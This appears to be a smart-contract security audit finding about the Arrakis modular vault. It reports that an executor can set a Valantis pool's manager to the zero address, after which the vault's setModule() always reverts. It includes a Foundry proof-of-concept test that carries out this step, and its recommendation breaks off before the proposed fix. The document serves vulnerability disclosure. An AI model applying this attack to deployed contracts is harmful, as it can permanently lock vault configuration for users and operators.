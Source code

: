 Tricky Alabaster Panda

medium

# When poolManager is set to address(0), a vault’s module can no longer be changed forever

## Summary

See detail. 

## Vulnerability Detail

In order to change the module of a `ArrakisMetaVault` to a new one, `setModule()` must be called on the vault. 

This calls the following internal function in the vault:

```solidity
function _withdrawManagerBalance(IArrakisLPModule module_) internal 
			returns (uint256 amount0, uint256 amount1)
{
	  (amount0, amount1) = module_.withdrawManagerBalance();
	
	  emit LogWithdrawManagerBalance(amount0, amount1);
}
```

The internal function tries to call `withdrawManagerBalance()` on the old module:

```solidity
function withdrawManagerBalance() 
        external
        whenNotPaused
        nonReentrant
        returns (uint256 amount0, uint256 amount1)
    {
        /* OTHER CODE REMOVED */ 

        pool.claimPoolManagerFees(0, 0);
				
				/* OTHER CODE REMOVED */ 
    }
```

The issue is that the `poolManager` could have been set to `address(0)` by calling `setPoolManager()` (see below). 

```solidity
function setPoolManager(address _manager) external override onlyPoolManager nonReentrant {
    poolManager = _manager;
    if (_manager == address(0)) {
        poolManagerFeeBips = 0;
        // It will be assumed pool is not going to contribute anything to protocol fees.
        _claimPoolManagerFees(0, 0, msg.sender);
        emit PoolManagerFeeSet(0);
    }

    emit PoolManagerSet(_manager);
}
```

After this, the pool’s `claimPoolManagerFees()`  function will always fail, and is not needed since the pool will no longer generate manager fees.

Hence, `_module.withdrawManagerBalance()` will revert, causing `setModule()` to revert.

`pool.setPoolManager` can be called via the `router.call_()` in `ValantisHOTModule` by an executor. 

## Impact

After the poolManager is set to `address(0)` , `ArrakisMetaVault.setModule()` still tries to claim the manager fees, leading to a revert. 

Hence, `setModule()`  will not be callable, so the vault’s module permanently cannot be changed.

## Proof of Concept

To run the PoC, add it to `arrakis-modular/test/integration`  and run `forge test --mt test_cant_setModule -vv`

<details><summary>Foundry test</summary>
    
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;

// Foundry Imports
import {console} from "forge-std/console.sol";
import {Vm} from "forge-std/Vm.sol";
import {Test} from "forge-std/Test.sol";

// Arrakis Imports
import {IArrakisMetaVaultPublic} from
    "../../src/interfaces/IArrakisMetaVaultPublic.sol";
import {IArrakisMetaVault} from
    "../../src/interfaces/IArrakisMetaVault.sol";
import {IArrakisStandardManager} from
    "../../src/interfaces/IArrakisStandardManager.sol";

// Valantis Imports
import {ValantisModule} from
    "../../src/abstracts/ValantisHOTModule.sol";
import {IValantisHOTModule} from
    "../../src/interfaces/IValantisHOTModule.sol";
import {SovereignPool} from  "../../lib/valantis-hot/lib/valantis-core/src/pools/SovereignPool.sol";
import {HOT} from "@valantis-hot/contracts/HOT.sol";

// General Imports
import {IOwnable} from "../../src/interfaces/IOwnable.sol";

// Base Test
import {ValantisIntegrationPublicTest} from "./ValantisIntegrationPublic.t.sol";

contract PoC_Cant_SetModule is ValantisIntegrationPublicTest {

    address attacker;
    address rec;
    
    function test_cant_setModule() public {
        rec = makeAddr("rec");
        attacker = makeAddr("attacker");

        address m = address(IArrakisMetaVault(vault).module());
        assertEq(pool.poolManager(), m);

        deal(address(token0), rec, init0); // 2000e6 (0: USDC)
        deal(address(token1), rec, init1); // 1e18   (1: WETH)

        //@e user mints from meta vault
        vm.startPrank(rec);
        token0.approve(m, init0);
        token1.approve(m, init1);

        IArrakisMetaVaultPublic(vault).mint(1e18, rec);
        vm.stopPrank();

        uint256 FEE_AMOUNT_0 = 1 wei;
        uint256 FEE_AMOUNT_1 = 1 wei;
        //@e Simulating 1 wei of fees in the `SovereignPool`
        vm.store(address(pool), bytes32(uint(5)), bytes32(FEE_AMOUNT_0));
        vm.store(address(pool), bytes32(uint(6)), bytes32(FEE_AMOUNT_1));

        // Sending the fee to the pool
        deal(address(token0), address(pool), token0.balanceOf(address(pool)) + FEE_AMOUNT_0);
        deal(address(token1), address(pool), token1.balanceOf(address(pool)) + FEE_AMOUNT_1);

        bool zeroForOne = false;
        uint256 amountIn = 1; // Using small values since we are not actually swapping anything
        uint256 expectedMinReturn = 1;

        bytes memory payload = abi.encodeWithSelector(
            SovereignPool.setPoolManager.selector, 
            address(0) // new poolmanager
        );

        bytes memory data = abi.encodeWithSelector(
            IValantisHOTModule.swap.selector,
            zeroForOne,
            expectedMinReturn,
            amountIn,
            address(pool),
            0, //note: this 0,0 lets us skip the checks in `HOT::_checkSpotPriceRange` during depositLiquidity
            0,
            payload
        );

        bytes[] memory datas = new bytes[](1);
        datas[0] = data;
        
        // Perform the attack
        vm.prank(executor);
        IArrakisStandardManager(manager).rebalance(vault, datas);

        assertEq(pool.poolManager(), address(0));

        // Assert that a new module can't be set anymore
        vm.startPrank(vault);
        vm.expectRevert();
        ValantisModule(m).withdrawManagerBalance();

    }
}
    
```
</details>
    

## Code Snippet

https://github.com/sherlock-audit/2024-03-arrakis/blob/64a7dc6ccb5de2824870474a9f35fd3386669e89/arrakis-modular/src/abstracts/ArrakisMetaVault.sol#L113

## Tool used

Manual Review

## Recommendation

In `ArrakisMetaVault.setModule()` , consider implementing the following change to ensure that function won’t revert, allowing a new module to be set.